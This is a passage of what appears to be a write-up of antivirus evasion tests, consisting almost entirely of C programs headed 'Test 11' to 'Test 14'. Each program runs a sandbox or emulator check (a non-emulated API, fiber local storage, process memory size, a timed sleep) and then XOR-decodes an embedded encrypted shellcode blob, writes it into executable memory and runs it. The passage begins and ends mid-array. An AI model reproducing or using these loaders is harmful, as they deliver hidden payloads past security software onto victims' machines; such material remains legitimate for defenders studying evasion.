x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
          char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
          int JLLxOyNdJwjKdg = 0;
          for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
              if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
                  JLLxOyNdJwjKdg=0;
              }
              bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
              JLLxOyNdJwjKdg++;
          }

              void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
              ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
      }
  }
      CloseHandle(file);
    }
      DeleteFile(FILE_PATH);
  
}
```


Test 11 (**Non emulated API**)
-------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    LPVOID mem = NULL;
    mem = VirtualAllocExNuma(GetCurrentProcess(), NULL, 1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE,0);
  
    if (mem == NULL)
    {
      return 1;
    }
        
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


Test 12 (Fiber Local Storage)
--------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    DWORD result = FlsAlloc(NULL);
  
    if (result == FLS_OUT_OF_INDEXES)
    {
      return 1;
    }
        
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


Test 13 (Check process memory)
-------

```c
#include <windows.h>
#include <string>
#include <psapi.h>
#pragma comment(lib, "psapi.lib")
using namespace std;

int main(int argc, char **argv) {
    PROCESS_MEMORY_COUNTERS pmc;
    GetProcessMemoryInfo(GetCurrentProcess(), &pmc, sizeof(pmc));

  if(pmc.WorkingSetSize<=3500000)
  {
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
  }

  return 1;
    
}
```




Test 14 (Time distortion)
-------------------------

```c
#include <windows.h>
#include <string>
#include <time.h>
#pragma comment (lib, "winmm.lib")
using namespace std;

int main(int argc, char **argv) {
    
    DWORD mesure1;
    DWORD mesure2;
    
    mesure1 = timeGetTime();
    Sleep(10000);
    mesure2 = timeGetTime();
    
    if(mesure2 > (mesure1 + 9999))
    {
      char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
      char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12